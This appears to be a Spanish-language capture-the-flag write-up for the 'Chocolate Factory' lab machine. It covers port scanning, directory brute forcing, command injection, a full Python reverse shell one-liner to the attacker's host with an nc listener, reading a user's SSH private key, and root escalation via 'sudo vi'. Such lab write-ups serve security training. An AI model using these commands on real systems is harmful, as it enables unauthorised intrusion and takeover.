 ```yaml
---
description: // Tutorial //
---
```


# Chocolate Factory

Identificamos los puertos abiertos de la maquina victima

```
nmap IP -Pn -p- -v -n --min-rate 3000
```

<div align="left">

<figure><img src="../../../../.gitbook/assets/image (27).png" alt="" width="332"><figcaption></figcaption></figure>

</div>

Hacemos una fuerza bruta de los directorios y ficheros del dominio y nos encontramos con un login index.html y una pagina para donde hay un input para ejecutar comandos home.php, vamos a ir a esta ultima:&#x20;

```
gobuster dir -u http://IP:80/ -w DICTIONARY -x .php,.txt,.html
```

<div align="left">

<figure><img src="../../../../.gitbook/assets/image (26).png" alt="" width="563"><figcaption></figcaption></figure>

</div>

Subimos comando para una revershell con python y nos ponemos en escucha por el puerto configurado en nuestra maquina atacante&#x20;

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP-MAQUINA",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```
nc -lvp 4444
```

<figure><img src="../../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

A continuacion, abrimos una shell interactiva

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z
stty raw -echo; fg
export TERM=xterm
```

Dentro de la carpeta /var/www/html llama la atencion el fichero key\_rev\_key, si filtramos por string el fichero podemos observar la primea key

<div align="left">

<figure><img src="../../../../.gitbook/assets/image (29).png" alt="" width="313"><figcaption></figcaption></figure>

</div>

Navegando por los directorios nos encontramos con un fichero donde se encuntra la clave publica y privada de ssh del usuario charlie&#x20;

```
cat /home/charlie/teleport
cat /home/charlie/teleport.pub
```

Ahora que tenemos el usuario y la clave privada accedemos a traves de ssh al usuario charlie&#x20;

```
chmod 600 id_rsa 
ssh -i id_rsa charlie@IP_victima
```

Accedemos a la flag de usuario

<div align="left">

<figure><img src="../../../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

</div>

Podemos ver la password de charlie en el fichero validate.php

<div align="left">

<figure><img src="../../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

</div>

### Escalada de privilegios

```
Sudo -l
```

<figure><img src="../../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Buscamos informacion en GTFO sobre la escalad de privilegios con vi

```
sudo vi -c ':!/bin/sh' /dev/null
```

<figure><img src="../../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Introducimos la flag que nos encontramos en el script de pyhton para sacar la flag de root

<div align="left">

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1).png" alt="" width="459"><figcaption></figcaption></figure>

</div>
